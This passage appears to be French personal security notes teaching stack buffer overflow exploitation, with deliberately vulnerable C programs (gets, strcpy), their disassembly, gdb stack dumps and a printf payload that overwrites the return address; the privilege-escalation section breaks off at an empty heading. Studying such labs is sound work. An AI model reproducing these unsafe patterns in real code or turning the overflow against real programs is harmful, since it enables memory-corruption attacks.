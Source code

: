 https://insecure.org/stf/smashstack.html
![Pasted image 20240218103950.png](https://github.com/PavelSmerdiakov/Security-Notes/blob/main/Pasted%20image%2020240218103950.png)


#### **Théorie**

- Étant donné que la fonction gets ne vérifie pas la taille de l'input ni la taille du buffer à laquelle elle fait référence, on va pouvoir faire un stack overflow qui consiste à remplacer l'adresse de retour de la fonction dans laquelle elle est appelée par l'adresse qu'on veut.

#### **Pratique**

##### **Exploit 1 / Démonstration**

- **Code source :**
```C
#include <stdio.h>
void return_input();
int main(){
	return_input();
	return 0;
}
void return_input(void){
	char array[30];
	gets(array);
	printf("%s\n", array);
}
```

```nasm
Code asm de la fonction main
   0x0000555555555149 <+0>:     push   rbp
   0x000055555555514a <+1>:     mov    rbp,rsp
   0x000055555555514d <+4>:     mov    eax,0x0
   0x0000555555555152 <+9>:     call   0x55555555515e <return_input>
   0x0000555555555157 <+14>:    mov    eax,0x0
   0x000055555555515c <+19>:    pop    rbp
   0x000055555555515d <+20>:    ret
```

``` nasm
   Code asm de la fonction return_input
   0x000055555555515e <+0>:     push   rbp
   0x000055555555515f <+1>:     mov    rbp,rsp
   0x0000555555555162 <+4>:     sub    rsp,0x20
   0x0000555555555166 <+8>:     lea    rax,[rbp-0x20]
   0x000055555555516a <+12>:    mov    rsi,rax
   0x000055555555516d <+15>:    lea    rax,[rip+0xe90]        # 0x555555556004
   0x0000555555555174 <+22>:    mov    rdi,rax
   0x0000555555555177 <+25>:    mov    eax,0x0
   0x000055555555517c <+30>:    call   0x555555555040 <__isoc99_scanf@plt>
   0x0000555555555181 <+35>:    lea    rax,[rbp-0x20]
   0x0000555555555185 <+39>:    mov    rdi,rax
   0x0000555555555188 <+42>:    call   0x555555555030 <puts@plt>
   0x000055555555518d <+47>:    nop
   0x000055555555518e <+48>:    leave
   0x000055555555518f <+49>:    ret
```

- **Analyse du code source :**
	- Là on voit que array est un buffer de 30 char et qu'on a une influence sur cette variable grâce à gets().

- **Exploitation**
	- Dans gdb, on va mettre un breakpoint au moment de l'appel de la fonction gets() (ligne 10 du code asm de la fonction return_input) et au moment de l'instruction ret (ligne 16) de return_input afin d'analyser la mémoire avant et après notre input :
		- `b *0x000055555555517c`
		- `b *0x000055555555518f`
	- Au premier breakpoint, on check la mémoire autour de RSP pour voir où se trouve l'adresse de retour. Normalement, l'adresse qu'on cherche correspond à l'adresse juste après (dans notre cas) l'appel de la fonction où on se trouve. Pour nous ça devrais être l'adresse 0x0000555555555157 à la ligne 6 du code asm de main.
		- `x/20x $rsp`
```nasm
Mémoire de la stack
0x7fffffffda60: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffda70: 0x00000000      0x00000000      0xf7fe6780      0x00007fff
0x7fffffffda80: 0xffffda90      0x00007fff      0x55555157      0x00005555 <- ici
0x7fffffffda90: 0x00000001      0x00000000      0xf7def6ca      0x00007fff
0x7fffffffdaa0: 0xffffdb90      0x00007fff      0x55555149      0x00005555
```
- 
	- Ensuite, on continue le programme et on entre une input de plus de 30 char. Ensuite, quand tu touche le 2ème breakpoint, tu réinspectes comment la mémoire autour de RSP a bougé.
		- `continue`
		- `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`
		- `x/20x 0x7fffffffda60`
```nasm
Mémoire de la stack
0x7fffffffda60: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda70: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda80: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda90: 0x41414141      0x00004141      0xf7def6ca      0x00007fff
0x7fffffffdaa0: 0xffffdb90      0x00007fff      0x55555149      0x00005555
```
- 
	- L'adresse de retour a bien été changée. On va maintenant recommencer et essayer de caler l'adresse de l'appel de la fonction return_input (0x0000555555555152) dans main à la place de l'adresse de retour de la stack. On va se servir de la fonction printf dans le shell pour envoyer l'input dans le programme :
		- `printf "AAAAAAAAAAAAAAAAAAAAAAAAAA\x52\x51\x55\x55\x55\x55\x00\x00" | ./programme`
		- On aurait aussi pu le faire comme ça : `./victim $(printf “foo”)`
	- Si tu as bien géré le placement de l'adresse de retour, tu devrais recevoir 2 fois l'output.

- **Conclusion**
	- On peut donc aller à n'importe quel endroit du script si on a une influence sur une adresse de retour. On pourrait très bien, dans un programme de connexion, aller directement à l'adresse de l'instruction qui s'occupe de nous connecter au programme. 


##### **Exploit 2 / Privilege Escalation**

- **Code source**
```C
int main(int argc,char *argv[]){
	char little_array[512];
	if (argc > 1)
		strcpy(little_array, argv[1]);
}
```
```nasm
Code asm de la fonction main
   0x0000555555555139 <+0>:     push   rbp
   0x000055555555513a <+1>:     mov    rbp,rsp
   0x000055555555513d <+4>:     sub    rsp,0x210
   0x0000555555555144 <+11>:    mov    DWORD PTR [rbp-0x204],edi
   0x000055555555514a <+17>:    mov    QWORD PTR [rbp-0x210],rsi
   0x0000555555555151 <+24>:    cmp    DWORD PTR [rbp-0x204],0x1
   0x0000555555555158 <+31>:    jle    0x55555555517a <main+65>
   0x000055555555515a <+33>:    mov    rax,QWORD PTR [rbp-0x210]
   0x0000555555555161 <+40>:    add    rax,0x8
   0x0000555555555165 <+44>:    mov    rdx,QWORD PTR [rax]
   0x0000555555555168 <+47>:    lea    rax,[rbp-0x200]
   0x000055555555516f <+54>:    mov    rsi,rdx
   0x0000555555555172 <+57>:    mov    rdi,rax
   0x0000555555555175 <+60>:    call   0x555555555030 <strcpy@plt>
   0x000055555555517a <+65>:    mov    eax,0x0
   0x000055555555517f <+70>:    leave
   0x0000555555555180 <+71>:    ret
```

- **Analyse du code source**
	- On voit dans le code C que notre arguments est passé dans un buffer avec une taille limitée grâce à la fonction strcpy qui ne fait pas gaffe à la mémoire.

- **Exploitation**
	- 
